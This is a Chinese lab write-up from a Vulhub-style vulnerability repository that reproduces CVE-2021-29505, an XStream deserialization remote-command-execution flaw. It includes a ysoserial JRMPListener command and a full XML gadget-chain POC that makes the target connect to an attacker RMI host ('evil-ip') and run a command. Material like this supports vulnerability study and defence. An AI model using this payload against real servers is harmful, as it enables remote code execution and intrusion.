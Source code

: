# XStream 反序列化命令执行漏洞 CVE-2021-29505

## 漏洞描述

XStream 是一个轻量级、简单易用的开源 Java 类库，它主要用于将对象序列化成 XML（JSON）或反序列化为对象。

XStream 在解析 XML 文本时使用黑名单机制来防御反序列化漏洞，但是其 1.4.16 及之前版本黑名单存在缺陷，攻击者可利用 `sun.rmi.registry.RegistryImpl_Stub` 构造 RMI 请求，进而执行任意命令。

参考链接：

- https://x-stream.github.io/CVE-2021-29505.html
- https://paper.seebug.org/1543/

## 环境搭建

Vulhub 执行如下命令启动一个 Springboot + XStream 1.4.16 的环境：

```
docker-compose up -d
```

环境启动后，我们向 `http://your-ip:8080` 发送一个正常的 XML 数据包，将会得到预期返回：

![image-20220302231858031](images/202203022318110.png)

## 漏洞复现

作为攻击者，我们在自己的服务器上使用 [ysoserial](https://github.com/frohoff/ysoserial) 的 JRMPListener 启动一个恶意的 RMI Registry：

```
java -cp ysoserial-0.0.6-SNAPSHOT-all.jar ysoserial.exploit.JRMPListener 1099 CommonsCollections6 "touch /tmp/awesome_poc"
```

这个 RMI Registry 在收到请求后，会返回用 CommonsCollections6 利用链构造的恶意序列化对象。

然后，我们向目标服务器发送 CVE-2021-29505 的 XML POC：

```
POST / HTTP/1.1
Host: your-ip
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/xml
Content-Length: 3169

<java.util.PriorityQueue serialization='custom'>
    <unserializable-parents/>
    <java.util.PriorityQueue>
        <default>
            <size>2</size>
        </default>
        <int>3</int>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.org.apache.xpath.internal.objects.XString'>
                <m__obj class='string'>com.sun.xml.internal.ws.api.message.Packet@2002fc1d Content</m__obj>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
        <javax.naming.ldap.Rdn_-RdnEntry>
            <type>12345</type>
            <value class='com.sun.xml.internal.ws.api.message.Packet' serialization='custom'>
                <message class='com.sun.xml.internal.ws.message.saaj.SAAJMessage'>
                    <parsedMessage>true</parsedMessage>
                    <soapVersion>SOAP_11</soapVersion>
                    <bodyParts/>
                    <sm class='com.sun.xml.internal.messaging.saaj.soap.ver1_1.Message1_1Impl'>
                        <attachmentsInitialized>false</attachmentsInitialized>
                        <nullIter class='com.sun.org.apache.xml.internal.security.keys.storage.implementations.KeyStoreResolver$KeyStoreIterator'>
                            <aliases class='com.sun.jndi.toolkit.dir.LazySearchEnumerationImpl'>
                                <candidates class='com.sun.jndi.rmi.registry.BindingEnumeration'>
                                    <names>
                                        <string>aa</string>
                                        <string>aa</string>
                                    </names>
                                    <ctx>
                                        <environment/>
                                        <registry class='sun.rmi.registry.RegistryImpl_Stub' serialization='custom'>
                                            <java.rmi.server.RemoteObject>
                                                <string>UnicastRef</string>
                                                <string>evil-ip</string>
                                                <int>1099</int>
                                                <long>0</long>
                                                <int>0</int>
                                                <long>0</long>
                                                <short>0</short>
                                                <boolean>false</boolean>
                                            </java.rmi.server.RemoteObject>
                                        </registry>
                                        <host>evil-ip</host>
                                        <port>1099</port>
                                    </ctx>
                                </candidates>
                            </aliases>
                        </nullIter>
                    </sm>
                </message>
            </value>
        </javax.naming.ldap.Rdn_-RdnEntry>
    </java.util.PriorityQueue>
</java.util.PriorityQueue>
```

其中，evil-ip 是恶意 RMI 服务器的地址。恶意 RMI 服务器收到 RMI 请求：

![image-20220302232424814](images/202203022324983.png)

进入目标容器内，可见 `touch /tmp/awesome_poc` 已成功执行：

![image-20220302232344183](images/202203022323249.png)

值得注意的是，我们没有直接使用 [官网](https://x-stream.github.io/CVE-2021-29505.html) 给出的 POC，那个 POC 是错的。
